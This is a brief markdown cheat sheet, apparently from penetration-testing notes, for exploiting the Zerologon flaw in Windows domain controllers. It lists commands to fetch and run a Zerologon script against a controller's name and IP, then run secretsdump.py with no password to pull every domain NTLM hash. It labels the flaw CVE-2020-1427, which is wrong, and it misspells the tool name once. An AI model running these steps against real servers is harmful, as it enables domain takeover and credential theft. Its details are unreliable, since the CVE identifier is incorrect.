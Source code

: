 #### CVE:2020-1427
It is a `zerologon` vulnerability found on Windows Servers 2016. 

##### 1. Download the script
```
https://github.com/zeronetworks/zerologon.git
```

##### 2. Run the script with `NetBIOS name` and the `IP`
Already downloaded in `Tools` directory
```
python3 zerologon_test.py <dc_name> <dc_ip>
```

##### 3. Extract Hashes with `secretdump.py`
```
secretdump.py dc2\$@<dc_ip> -just-dc-ntlm -no-pass
```

or ```
secretsdump.py -no-pass -just-dc dc2\$@<dc_ip>
```